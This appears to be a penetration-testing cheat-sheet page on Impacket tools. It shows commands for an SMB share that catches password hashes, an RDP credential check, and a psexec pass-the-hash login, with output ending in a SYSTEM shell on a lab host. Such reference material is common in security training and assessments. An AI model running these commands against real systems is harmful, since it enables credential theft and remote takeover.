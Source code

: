 #### SMB server share with password

```plain
sudo smbserver.py -username <username> -password <password> -ip <ip-to-bind> <share-name> <local-folder-to-share>
```

#### SMB server during assessment to catch hashes

```plain
sudo smbserver.py -smb2support share $PWD
```

### RDP_check.py - Check if RDP access is granted

```plain
$ rdp_check.py offsec/johndo:Welkom1234@10.10.10.10
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Access Granted
```

### psexec.py

```plain
$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83 Administrator@10.10.10.16
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.16.....
[*] Found writable share ADMIN$
[*] Uploading file KbEylSCh.exe
[*] Opening SVCManager on 10.10.10.16.....
[*] Creating service CdaA on 10.10.10.16.....
[*] Starting service CdaA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### Error help

#### PyAsn1UnicodeDecodeError

```plain
ImportError: cannot import name 'PyAsn1UnicodeDecodeError'
```

```plain
sudo pip3 install -U pyasn1
```

### URL list
